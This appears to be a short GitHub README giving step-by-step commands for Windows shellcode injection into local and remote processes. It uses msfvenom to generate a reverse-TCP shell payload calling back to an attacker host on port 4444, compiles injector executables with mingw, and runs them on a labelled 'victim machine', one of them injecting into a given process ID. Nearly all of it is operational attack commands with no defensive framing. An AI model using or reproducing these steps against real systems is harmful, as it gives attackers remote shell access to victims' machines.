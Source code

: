 # Local Process
## Attacker server
- Create revshell by msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.213.136 LPORT=4444 -f c -b \x00\x0a\x0d
```
- Copy shellcode and create a C++ file (selfinject.cpp)
- Compile it into exe file
```bash
x86_64-w64-mingw32-g++ -o inject1.exe selfinject.cpp -static-libgcc -static-libstdc++
```
## Victim machine
```bash
.\inject1.exe
```
# Remote Process
## Attacker server
- Create revshell by msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.213.136 LPORT=4444 -f c -b \x00\x0a\x0d
```
- Copy shellcode and create a C++ file (remoteinject.cpp)
- Compile it into exe file
```bash
x86_64-w64-mingw32-g++ -o inject2.exe remoteinject.cpp -static-libgcc -static-libstdc++
```
## Victim machine
```bash
.\inject2.exe PID_of_inject_process
```
